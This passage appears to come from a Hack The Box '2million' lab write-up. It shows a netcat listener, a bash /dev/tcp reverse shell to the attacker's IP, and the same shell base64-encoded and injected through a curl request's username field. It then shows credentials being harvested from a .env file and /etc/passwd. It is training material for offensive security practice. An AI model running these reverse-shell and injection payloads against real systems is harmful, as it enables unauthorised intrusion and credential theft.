 ```ad-hint

1. Setting up our listener: `nc -lvnp 4444`
2. Sending the following payload: `bash -i >& /dev/tcp/OUR_VPN_IP/LISTENER_PORT 0>&1`, for this case: `bash -i >& /dev/tcp/10.10.15.36/4444 0>&1`
3. Encoding the payload in base64, for this case, this was my encoded payload: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE=`
4. Sending the command injection and getting the shell.

#### Output
----

Sent payload: `curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lc3vb3f7nhk6krnqls1oc2t93t" --header "Content-Type: application/json" --data '{"username":"testhackerUsername;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE= | base64 -d | bash;"}'`

![](images/Pasted%20image%2020250106173523.png)
```

We got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize it]]: 

![](images/Pasted%20image%2020250106173633.png)

Nice, now we have an stable shell!


# PRIVILEGE ESCALATION
---


In order to perform privilege escalation, let's begin with a simple enumeration of the `/var/www/html` directory we are currently in:

![](images/Pasted%20image%2020250106173802.png)

We see a `.env` file, a **`.env` file** is a simple text file used to store environment variables for an application. These files are commonly used in software development to manage configuration settings in a structured and secure way.

Let's read it:

![](images/Pasted%20image%2020250106173902.png)

Seems like we have an `admin` user in this machine, let's read `/etc/passwd` to check if its true:

![](images/Pasted%20image%2020250106174006.png)

It is indeed true, now that we know it exists, we can log into ssh using those credentials:

```ad-note

##### Credentials:
---
DB_USERNAME=`admin`
DB_PASSWORD=`SuperDuperPass123`
```
